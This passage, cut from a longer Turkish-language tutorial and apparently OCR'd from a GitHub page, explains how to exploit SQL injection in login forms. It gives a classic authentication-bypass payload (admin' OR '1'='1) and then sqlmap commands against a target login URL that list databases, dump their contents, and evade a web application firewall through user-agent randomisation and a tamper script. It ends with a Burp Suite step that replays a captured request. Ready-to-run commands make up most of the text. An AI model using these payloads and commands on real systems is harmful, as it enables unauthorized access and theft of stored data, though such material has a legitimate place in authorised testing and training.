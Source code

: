 Veya:
plaintext
```sql
username=admin' OR '1'='1
password=anything
```

## Açıklama: Eğer giriş başarılı olursa, 1=1 her zaman TRUE döndüğünden, SQL sorgusu kullanıcıyı yetkili gibi kabul edebilir.

3. SQLmap ile POST SQLi Testi
SQLmap, POST isteklerini test etmek için mükemmel bir araçtır.
- 1. Basit Test (POST SQLi)
Öncelikle, SQLmap ile POST isteğini test edelim:
bash
```bash
sqlmap -u "https://target.com/login.php" --data="username=admin&password=1234" --dbs
```

```sql
- --dbs: Veri tabanı adlarını listeler.
```
- 2. Kullanıcıları Çekme
Eğer açık varsa, kullanıcı adlarını çekmek için:
bash
```bash
sqlmap -u "https://target.com/login.php" --data="username=admin&password=1234" --dump
```
- 3. WAF Bypass (Güvenlik Duvarı Aşma)
Eğer güvenlik duvarı varsa, şu parametreler eklenebilir:
bash
```bash
sqlmap -u "https://target.com/login.php" --data="username=admin&password=1234" --random-agent --tamper=space2comment
```

```sql
- --random-agent: Rastgele User-Agent kullanarak tespit edilmesini zorlaştırır.
✅ --tamper=space2comment: WAF tarafından filtrelenen boşlukları yorum satırına çevirir.
```

4. Proxy Kullanarak SQLmap ile POST SQLi Testi
Bazı durumlarda, siteyi Burp Suite üzerinden proxy ile analiz etmek daha iyi olur.
Burp Suite'i açın ve proxy dinleme portunu ayarlayın (Örn: 8080).
Tarayıcı üzerinden giriş yapın ve POST isteğini Intercept edin.
POST isteğini kaydedin ve SQLmap kullanarak test edin:
bash
```bash
sqlmap -r request.txt --dbs
```
## Açıklama: request.txt dosyası Burp Suite’ten kaydedilen ham HTTP isteğini içerir.
